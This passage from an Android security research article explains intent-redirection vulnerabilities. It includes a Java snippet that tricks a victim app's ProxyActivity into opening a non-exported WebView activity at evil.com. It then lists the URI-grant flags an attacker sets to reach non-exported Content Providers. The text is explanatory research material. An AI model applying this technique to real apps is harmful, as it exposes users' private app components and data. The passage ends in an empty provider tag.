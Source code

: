 throws a `java.lang.SecurityException`, due to `Permission Denial`: `AuthWebViewActivity not exported from uid 1337`.

But the attacker can force the victim to launch `AuthWebViewActivity` itself:

```
Intent extra = new Intent();
extra.setClassName("com.victim", "com.victim.AuthWebViewActivity");
extra.putExtra("url", "http://evil.com/");

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);


```

and no security violation will arise, because the app that is under attack does have access to all its own components. Using this code fragment, the attacker can bypass the Android system’s built-in restrictions.

When mobile app security researchers discover a vulnerability of this kind, they need to develop an attack to demonstrate the maximum possible impact. This requires studying the functionality of hidden components.

Escalation of attacks via Content Providers
-------------------------------------------

Besides access to arbitrary components of the original app, the attacker can attempt to gain access to those of the vulnerable app’s Content Providers that satisfy the following conditions:

*   it must be non-exported (otherwise it could be attacked directly, without using the vulnerability we are discussing in this article)
*   it must have the `android:grantUriPermissions` flag set to `true`.

The attacker must set itself as the recipient of an embedded intent and set the following flags

*   `Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION` permits persistent access to the provider (without this flag, the access is one-time only)
*   `Intent.FLAG_GRANT_PREFIX_URI_PERMISSION` permits URI access by prefix – for example, instead of repeatedly obtaining separate access using a complete path such as `content://com.victim.provider/image/1` the attacker can grant access to all the provider’s content using the URI `content://com.victim.provider/` and then use `ContentResolver` to address `content://com.victim.provider/image/1`, `content://com.victim.provider/image/2`, etc.
*   `Intent.FLAG_GRANT_READ_URI_PERMISSION` permits read operations on the provider (such as `query`, `openFile`, `openAssetFile`)
*   `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` permits write operations

An example of a typical provider where an attacker can gain access to it and perform regular operations like `query`, `update`, `insert`, `delete`, `openFile`, `openAssetFile`

```
<provider android:/>


```

